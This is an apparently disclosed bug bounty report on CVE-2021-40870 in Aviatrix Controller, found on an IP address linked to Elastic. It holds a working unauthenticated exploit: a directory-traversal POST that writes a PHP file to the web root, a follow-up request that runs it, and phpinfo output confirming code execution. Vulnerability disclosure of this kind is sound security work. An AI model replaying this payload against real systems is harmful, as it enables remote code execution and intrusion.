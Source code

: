 # CVE-2021-40870 on [52.204.160.31]

## Report Details
- **Report ID**: 1356845
- **URL**: https://hackerone.com/reports/1356845
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-10-01T20:20:56.312Z
- **Disclosed**: 2021-10-06T16:06:41.191Z

## Reporter
- **Username**: fdeleite
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: elastic

## Vulnerability Information
An issue was discovered in Aviatrix Controller 6.x before 6.5-1804.1922. Unrestricted upload of a file with a dangerous type is possible, which allows an unauthenticated user to execute arbitrary code via directory traversal.

The IP has a SSL certificate pointing to ElasticSearch. 
``curl -kv https://52.204.160.31``

Output

```
 Server certificate:
*  subject: C=US; ST=California; L=Mountain View; O=Elasticsearch, Inc.; CN=*.elasticit.co
```


## Steps To Reproduce

First, run this request:
```
POST /v1/backend1 HTTP/1.1
Host: 52.204.160.31
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Connection: close
Content-Length: 136
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

CID=x&action=set_metric_gw_selections&account_name=/../../../var/www/php/1yv4QQmkj4h4OdmmyT11tkiGf5M.php&data=RCE<?php phpinfo()?>

```
The retrieve the content from file ``1yv4QQmkj4h4OdmmyT11tkiGf5M.php``

```
GET /v1/1yv4QQmkj4h4OdmmyT11tkiGf5M.php HTTP/1.1
Host: 52.204.160.31
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.67 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
```
Which is basically the output of the phpinfo function:

Response (truncated): 
```
tr class="h"><th>Variable</th><th>Value</th></tr>
<tr><td class="e">SCRIPT_URL </td><td class="v">/v1/1yv4QQmkj4h4OdmmyT11tkiGf5M.php </td></tr>
<tr><td class="e">SCRIPT_URI </td><td class="v">https://52.204.160.31:8443/v1/1yv4QQmkj4h4OdmmyT11tkiGf5M.php </td></tr>
<tr><td class="e">HTTPS </td><td class="v">on </td></tr>
<tr><td class="e">SSL_SERVER_S_DN_C </td><td class="v">US </td></tr>
<tr><td class="e">SSL_SERVER_S_DN_ST </td><td class="v">California </td></tr>
<tr><td class="e">SSL_SERVER_S_DN_L </td><td class="v">Mountain View </td></tr>
<tr><td class="e">SSL_SERVER_S_DN_O </td><td class="v">Elasticsearch, Inc. </td></tr>
<tr><td class="e">SSL_SERVER_S_DN_CN </td><td class="v">*.elasticit.co </td></tr>
<tr><td class="e">SSL_SERVER_I_DN_C </td><td class="v">US </td></tr>
<tr><td class="e">SSL_SERVER_I_DN_O </td><td class="v">DigiCert Inc </td></tr>
<tr><td class="e">SSL_SERVER_I_DN_CN </td><td class="v">DigiCert SHA2 Secure Server CA </td></tr>
<tr><td class="e">SSL_SERVER_SAN_DNS_0 </td><td class="v">*.elasticit.co </td></tr>
<tr><td class="e">SSL_SERVER_SAN_DNS_1 </td><td class="v">elasticit.co </td></tr>
<tr><td class="e">SSL_VERSION_INTERFACE </td><td class="v">mod_ssl/2.4.39 </td></tr>
<tr><td class="e">SSL_VERSION_LIBRARY </td><td class="v">OpenSSL/1.1.1b </td></tr>
<tr><td class="e">SSL_PROTOCOL </td><td class="v">TLSv1.2 </td></tr>
<tr><td class="e">SSL_SECURE_RENEG </td><td class="v">true </td></tr>
<tr><td class="e">SSL_COMPRESS_METHOD </td><td class="v">NULL </td></tr>
<tr><td class="e">SSL_CIPHER </td><td class="v">ECDHE-RSA-AES128-GCM-SHA256 </td></tr>
<tr><td class="e">SSL_CIPHER_EXPORT </td><td class="v">false </td></tr>
<tr><td class="e">SSL_CIPHER_USEKEYSIZE </td><td class="v">128 </td></tr>
<tr><td class="e">SSL_CIPHER_ALGKEYSIZE </td><td class="v">128 </td></tr>
<tr><td class="e">SSL_CLIENT_VERIFY </td><td class="v">NONE </td></tr>
<tr><td class="e">SSL_SERVER_M_VERSION </td><td class="v">3 </td></tr>
<tr><td class="e">SSL_SERVER_M_SERIAL </td><td class="v">093CE89EF93EE5F18D1E07099ACC5AF9 </td></tr>
<tr><td class="e">SSL_SERVER_V_START </td><td class="v">Mar 20 00:00:00 2020 GMT </td></tr>
<tr><td class="e">SSL_SERVER_V_END </td><td class="v">Mar 25 12:00:00 2022 GMT </td></tr>
<tr><td class="e">SSL_SERVER_S_DN </td><td class="v">CN=*.elasticit.co,O=Elasticsearch\, Inc.,L=Mountain View,ST=California,C=US </td></tr>
<tr><td class="e">SSL_SERVER_I_DN </td><td class="v">CN=DigiCert SHA2 Secure Server CA,O=DigiCert Inc,C=US </td></tr>
<tr><td class="e">SSL_SERVER_A_KEY </td><td class="v">rsaEncryption </td></tr>
<tr><td class="e">SSL_SERVER_A_SIG </td><td class="v">sha256WithRSAEncryption </td></tr>
<tr><td class="e">SSL_SESSION_ID </td><td class="v">9cf6b4b42df9e371982120b49d57f9112c19df3722fb87d15cc592f73e1fa406 </td></tr>
<tr><td class="e">SSL_SESSION_RESUMED </td><td class="v">Initial </td></tr>
<tr><td class="e">HTTP_HOST </td><td class="v">52.204.160.31 </td></tr>
<tr><td class="e">HTTP_USER_AGENT </td><td class="v">Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.67 Safari/537.36 </td></tr>
<tr><td class="e">HTTP_CONNECTION </td><td class="v">close </td></tr>
 ```

## Impact

-   An unauthenticated, 3rd-party attacker or adversary can execute remote code
 
### Supporting Material/References
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-40870

## Attachments
No attachments
